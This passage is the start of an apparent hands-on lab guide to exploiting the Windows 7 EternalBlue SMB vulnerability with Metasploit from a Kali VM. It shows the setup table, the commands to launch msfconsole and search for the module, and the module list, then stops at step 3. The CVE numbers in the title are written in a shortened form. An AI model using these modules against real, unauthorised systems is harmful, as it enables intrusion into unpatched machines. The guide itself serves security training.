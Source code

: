 # Windows Eternalblue [CVE-2017-143,144,145,146,148]

**Note**: these labs are extremely oriented to the results, using a step-by-step guidance. During your progress, try to find more information and understand what you are doing. 

# Requirements

| Kali Linux | The Kali Linux VM (or any other type of installation) |
| --- | --- |
| Windows 7 | The Windows 7 VM |
| Metasploitable Framework | Metasploit Framework toolset (installed on Kali Linux by default) |
| Windows 7 IP | The IP address of the Windows 7 VM. In my case it is 192.168.8.130. This may be different in your specific case. |
| Kali Linux IP | The IP address of the Kali Linux machine. In my case it is 192.168.8.147. This may be different in your specific case. |

# Laboratory Workflow

The following describe the different steps to be conducted during the laboratory. You may introduce variations on this and learn from those variations.

### 1. Launch the Metasploit Framework

`msfconsole`

### 2. Search for the appropriate module

`search eternalblue`

```
Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
   4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution
```

### 3. Use the module

